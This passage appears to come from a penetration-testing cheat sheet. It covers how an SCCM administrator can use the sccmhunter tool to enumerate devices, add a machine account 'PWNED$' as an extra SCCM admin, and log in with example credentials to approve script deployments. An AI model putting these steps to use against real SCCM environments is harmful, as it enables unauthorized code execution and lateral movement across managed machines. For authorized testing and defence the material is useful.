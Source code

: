 {% hint style="warning" %}
Applications take a long time to work. Scripts go faster.
{% endhint %}

As SCCM admin deploying scripts on a resource is possible with simple command:

```shell-session
whoami;hostname
```

Then in sccmhunter

```sh
# Enum machines within admin shell
() (C:\) >> get_device sccm01

# Promoto machine to full admin
(16777221) (C:\) >> get_device PWNED 

# Add admin
(16777221) (C:\) >> add_admin PWNED$ S-1-5-21-2570265163-3918697770-3667495639-1218

# New admin account is used as approval account.
python3 sccmhunter.py admin -u blwasp -p 'Password123!' -ip 172.50.0.40 -au 'PWNED$' -ap ComputerPass123

```
